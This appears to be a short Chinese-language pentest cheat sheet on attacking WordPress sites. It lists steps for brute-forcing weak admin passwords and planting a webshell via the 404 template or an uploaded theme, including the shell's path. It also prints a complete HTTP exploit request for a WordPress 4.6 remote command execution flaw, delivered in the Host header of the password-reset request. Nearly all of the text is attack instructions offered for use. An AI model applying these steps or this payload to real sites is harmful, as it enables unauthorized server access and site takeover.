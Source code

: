 ```yaml
---
title: Wordpress
---
```


## [弱口令]-后台Getshell

枚举用户名 -> 爆破弱口令 -> 后台上传shell

（1）编辑404页面Getshell

```
在404页面写入一句话木马即可
```

（2）上传主题文件Getshell

```
下载主题文件，把shell放入主题文件中，然后上传

shell路径：/wp-content/themes/[主题名]/[shell文件名]
```



## 其它漏洞

`4.6版本`存在RCE命令执行漏洞

```http
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

> 还有各种插件漏洞